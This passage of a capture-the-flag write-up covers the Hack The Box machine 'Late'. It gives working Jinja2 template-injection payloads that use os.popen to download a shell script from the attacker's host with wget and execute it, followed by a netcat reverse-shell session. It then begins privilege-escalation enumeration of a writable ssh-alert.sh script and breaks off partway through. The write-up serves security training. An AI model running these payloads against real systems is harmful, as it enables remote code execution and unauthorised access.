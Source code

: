 ```
Content-Type: text/plain; charset=utf-8
Content-Length: 15
Connection: close
Content-Disposition: attachment; filename=results.txt
Last-Modified: Thu, 14 Jul 2022 14:37:44 GMT
Cache-Control: no-cache
ETag: "1657809464.0131314-15-365825568"

<p>7777777
</p>
```
Following the tree and testing all payloads, we can discover that in the back end the application is running Jinja2/twig application.  

## User
Now that we know the templating engine, we can navigate to the exploit section and trigger command execution:  
```python
{{config.__class__.__init__.__globals__["os"].popen("wget http://10.10.14.9/shell.sh > /tmp/shell.sh; chmod 755 shell.sh").read()}}
```
and execute the shell:
```python
{{config.__class__.__init__.__globals__["os"].popen("bash shell.sh").read()}}
```
And we can get a shell as user ```svc_acc```
```
[root@kali Late ]$ bash
root@kali:~/Documents/HTB/Boxes/Late# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.156] 56558
bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
bash-4.4$ id
id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
```

## Root
Once we log in, we can check for user owned files and we can see the following:  
```
svc_acc@late:~$ find / -user svc_acc 2>/dev/null | grep -v '/run\|/proc\|/sys\|/home\|/var/lib'                                                                                                                                             
/tmp/shell.sh
/usr/local/sbin
/usr/local/sbin/ssh-alert.sh
/dev/pts/0
/dev/pts/1
```
as we can notice `/usr/local/sbin` is owned by `svc_acc`  and also a script `/usr/local/sbin/ssh-alert.sh`. If we open this script we can see the following:  
```bash
svc_acc@late:~/app$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
```